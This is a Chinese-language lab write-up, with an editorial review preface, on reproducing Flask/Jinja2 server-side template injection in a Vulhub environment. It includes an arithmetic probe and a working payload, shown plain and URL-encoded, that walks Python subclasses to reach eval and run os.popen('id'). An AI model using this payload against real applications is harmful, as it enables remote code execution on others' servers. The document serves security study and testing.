

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：无版本范围，属于应用把输入作为模板源码；取决于Python对象图、环境是否沙箱化

代码与实验材料：算术基线与catch_warnings遍历载荷、编码URL一致为id；没有实际Flask代码/compose定义，需外部Vulhub

来源证据范围：Vulhub和drops技术文章，补库转录

- **适用与权限边界（1）**：应用缺陷不能概括为所有Jinja2产品漏洞；依据：简介正确指程序员代码不当，但影响节空白；缺render_template_string等实际入口和sandbox前提。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：实验地址/端口不一致；依据：初测无端口，后例8000，固定0-sec域名；算术结果证明模板解释不自动证明任意代码执行。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Flask / jinja2 SSTI 服务端模版注入攻击

一、漏洞简介
------------

`SSTI`即服务端模版注入攻击。由于程序员代码编写不当，导致用户输入可以修改服务端模版的执行逻辑，从而造成`XSS`,任意文件读取，代码执行等一系列问题。

二、漏洞影响
------------

三、复现过程
------------

编译及运行测试环境：

    docker-compose build
    docker-compose up -d

访问`http://www.0-sec.org/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

    
    
      
      
        
          {{ b['eval']('__import__("os").popen("id").read()') }}
        
      
      
    
    

访问`http://www.0-sec.org:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`，得到执行结果：

参考链接
--------

> https://drops.org.cn/Python/flask-jinja2-ssti.html\#directory072591889128396616
>
> https://vulhub.org/\#/environments/flask/ssti/
